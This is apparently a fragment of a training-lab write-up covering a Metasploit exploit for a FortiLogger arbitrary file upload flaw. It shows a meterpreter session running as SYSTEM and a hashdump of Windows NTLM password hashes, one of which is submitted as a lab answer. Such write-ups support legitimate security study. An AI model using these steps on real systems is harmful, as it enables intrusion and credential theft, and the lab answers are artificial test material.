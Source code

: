 Version 4.4.2.2 -> CÓ VULN

![](images/8.png)
```zsh
msf6 > search fortilogger

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank    Check  Description
   -  ----                                                   ---------------  ----    -----  -----------
   0  exploit/windows/http/fortilogger_arbitrary_fileupload  2021-02-26       normal  Yes    FortiLogger Arbitrary File Upload Exploit


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/fortilogger_arbitrary_fileupload

msf6 > 

```

```zsh
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

+ 1  Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

```zsh
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb-student:1002:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
```
